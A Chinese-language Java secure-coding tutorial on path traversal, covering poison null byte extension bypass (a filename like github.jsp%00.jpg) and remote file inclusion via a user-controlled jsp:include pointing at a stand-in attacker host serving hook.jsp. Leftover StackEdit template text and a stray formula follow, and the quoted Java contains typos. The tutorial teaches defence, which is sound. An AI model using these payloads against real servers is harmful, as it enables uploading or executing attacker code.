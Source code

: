 #13.路径遍历漏洞二
  
  上一篇提过，下载或上传处理不当很容易造成任意文件下载漏洞和任意路径文件上传漏洞。
  
  其实，坑不仅仅只有这个。如果以下这些坑你没意识去主动避免，那么很有可能哪一天就掉进去了。

##13.1 绕开后缀判断

```java
// 请求路径：http://example.com?name=github.jsp%00.jpg
String name = request.getParameter("name");

if (name.matches(".*\\.jpg")) {
	File file = new File(name);
	file.createNewFile();

	System.out.println("规范路径 : " + file.getCanonicalPath());
}
```

在很多操作系统中，控制字符%00被用于注入到文件名中，例如下面这个URL：
```
http://example.com?name=github.jsp%00.jpg
```
在Java应用看来，改文件名是以.jpg结尾的，而操作系统在碰到%00就被截断了，所以操作系统只能看到的是以.jsp结尾的。这个攻击用于绕开应用程序对文件后缀的检查。 

__控制字符`%00-%1f`最初是用于控制硬件设备，控制字符在URL中是无意的。__

##13.1拓展阅读

其实13.1提高奥的攻击叫__Poison Null Byte__，不仅仅是Java，其实在其他语言中一样存在。参考：http://hakipedia.com/index.php/Poison_Null_Byte

Java在较新的版本中，已经修复了这个漏洞，代码如下：

```java
public class File {
 ...
 
 public boolean createNewFile() throws IOException {
 	 SecurityManager security = System.getSecurityManager();
 	 if(security != null) security.checkWrite(path);
 	 if(iwInvalid()){
 	   throw new IOEception("Invalid file path");
 	 }
 	 return fs.createFileExclusively(path);
 }
 
 final boolean isInvalid() {
    if (status == null) {
        status = (this.path.indexOf('\u0000') < 0) ? PathStatus.CHECKED
                                                   : PathStatus.INVALID;
    }
    return status == PathStatus.INVALID;
 }
}
```

如果pathame中存在控制字符NUL，则抛出IOEception异常。

##13.2 远程文件包含

有些蛋疼的程序员会在jsp标签中包含远程文件，当然，这不是关键，关键是允许用户传参指定包含的文件，这时候**远程文件包含**漏洞就出现了。如果远程包含的文件里面包含jsp代码，那么Web容器就会执行这段代码，从而导致了漏洞的发生。例如：

```jsp
<jsp:include page="<%=remotePage%>" flush="true"/>
```
请求如下：
> http://example.com/?remotePage=http://hacker.com/hook.jsp

结果是hook.jsp文件里面的恶意代码会被&lt;jsp:include&gt;标签包含并执行。

## 参考资料
 * https://www.owasp.org/index.php/Path_Traversal
 * http://www.w3schools.com/tags/ref_urlencode.asp
 * https://www.owasp.org/index.php/File_System#Path_traversal

> **NOTE:** You can find more information:
>
> - about **Markdown** syntax [here][2],
> - about **Markdown Extra** extension [here][3],
> - about **LaTeX** mathematical expressions [here][4],
> - about **Prettify** syntax highlighting [here][5],
> - about **Highlight.js** syntax highlighting [here][6].

  [^stackedit]: [StackEdit](https://stackedit.io/) is a full-featured, open-source Markdown editor based on PageDown, the Markdown library used by Stack Overflow and the other Stack Exchange sites.

  [^gfm]: **GitHub Flavored Markdown** (GFM) is supported by StackEdit.


  [1]: http://math.stackexchange.com/
  [2]: http://daringfireball.net/projects/markdown/syntax "Markdown"
  [3]: https://github.com/jmcmanus/pagedown-extra "Pagedown Extra"
  [4]: http://meta.math.stackexchange.com/questions/5020/mathjax-basic-tutorial-and-quick-reference
  [5]: https://code.google.com/p/google-code-prettify/
  [6]: http://highlightjs.org/
 
```
\Gamma(z) = \int_0^\infty t^{z-1}e^{-t}dt\,.
```
